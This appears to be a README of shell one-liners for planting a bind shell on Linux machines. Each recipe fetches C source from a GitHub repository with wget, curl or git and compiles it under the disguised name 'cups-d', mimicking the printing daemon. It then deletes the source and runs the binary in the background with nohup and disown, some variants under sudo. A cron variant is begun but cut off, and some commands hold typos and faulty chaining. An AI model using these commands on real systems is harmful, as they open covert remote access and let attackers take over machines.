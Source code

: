 # One-liners:
## BIND / WGET / GCC
### SETUP(as root):
```console
apt-get install --yes wget gcc binutils || yum -y install wget gcc binutils || zypper -l --no-confirm install wget gcc binutils || pacman --noconfirm -Sy wget gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes wget gcc binutils || sudo yum -y install wget gcc bitutils || sudo zypper -l --no-confirm install wget gcc binutils || sudo pacman --noconfirm -Sy wget gcc binutils
```
### RUN(current user):
```console
wget -O bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
wget -O bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

## BIND / Curl / GCC
### SETUP(as root):
```console
apt-get install --yes curl gcc binutils || yum -y install curl gcc binutils || zypper -l --no-confirm install curl gcc binutils || pacman --noconfirm -Sy curl gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes curl gcc binutils || sudo yum -y install curl gcc binutils || sudo zypper -l --no-confirm install curl gcc binutils || sudo pacman --noconfirm -Sy curl gcc binutils
```
### RUN(current user):
```console
curl -o bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
curl -o bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```
## BIND / Git / GCC
### SETUP(as root):
```console
apt-get install –yes git gcc binutils || yum install git gcc binutils || zypper -l --no-confirm install git gcc binutils || pacman --noconfirm -Sy git gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install –yes git gcc binutils || sudo yum install git gcc binutils || sudo zypper -l --no-confirm install git gcc binutils || sudo pacman --noconfirm -Sy git gcc binutils
```
### RUN(current user):
```console
git clone https://github.com/ScorpionInc/C-Sandbox.git && cp ./C-Sandbox/CBindShell/bind.c ./bind.c; rm -rf ./C-Sandbox/ 2>/dev/null; gcc ./bind.c -o ./cups-d && nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
git clone https://github.com/ScorpionInc/C-Sandbox.git && cp ./C-Sandbox/CBindShell/bind.c ./bind.c; rm -rf ./C-Sandbox/ 2>/dev/null; gcc ./bind.c -o ./cups-d && sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

## BIND-CRON / WGet / GCC
### SETUP(as root):
```console
apt-get install –yes wget gcc binutils cron
```
### SETUP(via sudo):
```console
sudo apt-get install –yes wget gcc binutils cron
```
